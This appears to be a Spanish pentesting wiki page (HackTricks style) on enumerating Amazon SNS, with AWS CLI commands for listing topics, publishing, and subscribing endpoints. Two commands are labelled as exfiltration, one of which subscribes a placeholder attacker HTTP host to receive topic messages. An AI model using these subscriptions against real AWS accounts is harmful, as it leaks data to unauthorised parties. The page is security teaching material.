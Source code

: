# AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) se describe como un **servicio de mensajería completamente gestionado**. Soporta tanto **comunicaciones de aplicación a aplicación** (A2A) como **comunicaciones de aplicación a persona** (A2P).

Las características clave para la comunicación A2A incluyen **mecanismos de publicación/suscripción (pub/sub)**. Estos mecanismos introducen **temas**, cruciales para habilitar mensajería **basada en push, de alto rendimiento y de muchos a muchos**. Esta característica es altamente ventajosa en escenarios que involucran sistemas distribuidos, microservicios y arquitecturas sin servidor impulsadas por eventos. Al aprovechar estos temas, los sistemas publicadores pueden distribuir mensajes de manera eficiente a una **amplia gama de sistemas suscriptores**, facilitando un patrón de mensajería de fanout.

### **Diferencia con SQS**

**SQS** es un servicio **basado en colas** que permite la comunicación punto a punto, asegurando que los mensajes sean procesados por un **único consumidor**. Ofrece **entrega al menos una vez**, soporta colas estándar y FIFO, y permite la retención de mensajes para reintentos y procesamiento retrasado.\
Por otro lado, **SNS** es un servicio **basado en publicación/suscripción**, que permite la comunicación **de uno a muchos** al transmitir mensajes a **múltiples suscriptores** simultáneamente. Soporta **diversos puntos de suscripción como correo electrónico, SMS, funciones Lambda y HTTP/HTTPS**, y proporciona mecanismos de filtrado para la entrega de mensajes dirigida.\
Mientras que ambos servicios permiten desacoplar componentes en sistemas distribuidos, SQS se centra en la comunicación en cola, y SNS enfatiza patrones de comunicación impulsados por eventos y de fan-out.

### **Enumeración**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Tenga en cuenta que si el **tema es de tipo FIFO**, solo se pueden usar suscriptores que utilicen el protocolo **SQS** (no se puede usar HTTP o HTTPS).
>
> Además, incluso si el `--topic-arn` contiene la región, asegúrese de especificar la región correcta en **`--region`** o recibirá un error que indica que no tiene acceso, pero el problema es la región.

#### Acceso No Autenticado

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Escalación de Privilegios

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Explotación

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistencia

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## Referencias

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
